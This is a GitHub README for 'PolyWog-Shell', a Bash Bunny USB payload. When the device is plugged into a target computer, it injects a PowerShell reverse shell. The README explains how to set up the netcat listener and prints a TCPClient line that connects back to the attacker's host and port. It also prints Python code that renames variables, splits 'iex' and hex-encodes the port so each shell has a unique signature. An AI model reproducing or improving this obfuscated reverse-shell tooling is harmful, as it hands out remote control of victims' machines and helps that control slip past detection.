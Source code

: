 
# PolyWog-Shell 
### By: Hak5Peaks


## PolyWog Shell Description. 

PolyWog shell is a reverse shell generator designed for the Bash Bunny. This payload uses a python2 + bash script to generate a powershell payload with a unique signature. Every time the Bash Bunny is plugged into a computer, a unique powershell script will be injected into the target machine. 

The python2 script uses a base powershell payload and randomizes/obfuscates parts of the powershell payload. Using methods such as variable and string Obfuscation and IP and Port Encoding

## LED. 

- Blue, payload has started and is running.
- Red, Payload failed, most likely due to missing `shell.py`
- Green, payload has completed. 


## Configuations. 

This script requires minimal configuration. simply launch a nc listener `nc -lvnp PORT` and copy the IP and Port from your listener into the IP and Port variable on the payload. Then place the python2 script `shell.py` inside of the `tools` directory of the udisk.
 

### Shell + Payload configuation Example
<div style="display: flex; justify-content: center; gap: 10px;">
    <img src="https://github.com/user-attachments/assets/874226a5-6d3e-47d4-93bd-70fbf0ef5d2a" width="45%">
    <img src="https://github.com/user-attachments/assets/7f656678-575e-43b3-8988-a60a70b01169" width="45%">
</div>

### Udisk configuration Example

![image](https://github.com/user-attachments/assets/daf4b620-5d38-4ceb-86b0-95edafd0494d)

### SD Card. 

If you have a SD card inserted into your bunny, make sure to read these considerations. 

https://docs.hak5.org/bash-bunny/getting-started/considerations-for-mark-ii#payload-considerations

When loading this payload, please remove the SD card from your Bunny before inserting while in arming mode. Then place the `payload.txt` in the proper switch directory and shell.py inside of the /tools directory. 

## Requirements. 

Ensure correct configuation as stated above. There are `no` other requirments or external packages that need to be install. 




# For anyone interest in the code! ↓




## Code break down - Base powershell script. 

![image](https://github.com/user-attachments/assets/4fb614fe-7593-4b43-ac6c-46bcecf88b3d)


This is the base powershell script that is plugged into the python2 script. It is a simple reverse shell that uses `System.Net.Sockets.TCPClient` to make remote connections to our netcat listener. This connection is TCP connection is kept open and the script waits for a response back from the netcat server and runs the results in shell  using `Invoke-Expression` Once a command is received and ran the output of the command is sent back using `StreamWriter` to the remote IP and Port specified in the powershell payload. Very simple :D 



## Code break down - Python obfuscator script. 

![image](https://github.com/user-attachments/assets/a4c96bab-5d59-43c3-b1d8-099a7b43eb1a)

This is the python script that stores our original powershell payload. The python script's job is to use regexing to modify, randomize and replace parts of our original powershell payload in order to create a brand new payload that achieves the same functionality as the original. 

It does it using these functions, 

First, when the script is called it takes in our command line arguments from the bash script and stores them as variables within the script 
```
ip = sys.argv[1]
port = sys.argv[2]
```
Second, the script replaces our IP and Port within out powershell payload, 
```
script = """$tcp=New-Object System.Net.Sockets.TCPClient('*LHOST*',*LPORT*);...
```
Third, the python script looks for variables names within our powershell payload and replaces them with random letters 
```
var_dict = {}
pattern = re.compile(r'(?!\$PSHOME)(\$[A-Za-z][A-Za-z0-9]+)')
def replace_var(match):
    var_name = match.group(1)
    if var_name not in var_dict:
        var_dict[var_name] = '$' + ''.join(random.sample(string.ascii_letters + string.digits, 10))
    return var_dict[var_name]

script = pattern.sub(replace_var, script)
```
Resulting in a output similar to this `$tcp -> $aBc123dEf4` 
 
Then, the python script will search for certain commands such as `iex` that can be easily changed. without creating conflicts. `iex -> i''ex`
```
pattern = re.compile(r'\biex\b')
script = pattern.sub("i''ex", script)
```
The script then moves on to convert our IP and port numbers to hex. 

```
pattern = re.compile(r'\b(?!65535)([1-9]\d{1,3}|[1-5]\d{4}|6[0-4]\d{3}|65[0-4]\d{2}|655[0-2]\d|6553[0-5])\b')
def port_to_hex(match):
    port_number = int(match.group())
    return hex(port_number)

script = pattern.sub(port_to_hex, script)
```
The brand new powershell payload is stored as shell.txt so its contents can later be used inside out bash bunny payload. 



